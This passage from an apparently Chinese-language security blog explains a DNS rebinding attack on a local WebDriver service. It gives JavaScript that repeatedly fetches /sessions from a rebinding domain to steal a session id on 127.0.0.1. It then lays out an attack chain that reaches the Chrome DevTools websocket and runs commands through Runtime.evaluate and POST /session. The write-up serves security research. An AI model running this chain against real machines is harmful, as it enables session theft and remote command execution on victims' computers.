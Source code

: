 我们这里通过模拟一次DNS重绑定来探测，这里用一段简单的代码来做check

```
var i = 0;
var sessionid;

function waitdata(){

	fetch("http://r.d73ha3.ceye.io:22827/sessions", {
	    method: "GET",
	    mode: "no-cors"
	}).then(res => res.json()).then(res => function () {
		if(res.value){
		    sessionid = res.value[0].id;
		}
	}());

	stopwait();
}

function stopwait(){

	if(sessionid!=undefined){
		console.log(sessionid);
		clearInterval(t1);

	}
}

t1 = setInterval('i +=1;console.log("wait dns rebinding...test "+i);waitdata()',1000);

```

![image-20210416155420387](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/image-20210416155420387.png)

可以看到经过63次请求，dns cache失效并成功获取到了127.0.0.1对应的seesionid。

## attack chain！

总结前后的几个利用点，我们现在可以尝试把他们串联起来。

- 受害者使用webdriver访问exp.com/a.html，a.html扫描127.0.0.1对应webdriver端口。
- 跳转到exp.com:<webdriver port>，开始执行JS+DNS Rebinding。
- 通过构造JS+DNS Rebinding，我们可以读取webdriver端口GET请求的返回，并通过`GET /sessions`获取对应Session的debug端口以及session id。
- 通过Session id，我们可以使用`GET /session/{sessionid}/source`获取对应窗口的页面内容。
- 通过Session对应的debug端口，我们可以使浏览器访问`http://127.0.0.1:<CDP Port>/json/list`，并且通过`GET /session/{sessionid}/source`获取返回对应浏览器窗口的webSocketDebuggerUrl。
- 通过webSocketDebuggerUrl与浏览器窗口会话交互，使用`Runtime.evaluate`方法执行JS代码。
- 构造JS代码`POST /session`执行命令。

这里借用原文当中的一张图片来展示整个exp利用过程。

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/AreYouTalkingToMe-DNS.Rebinding.png)
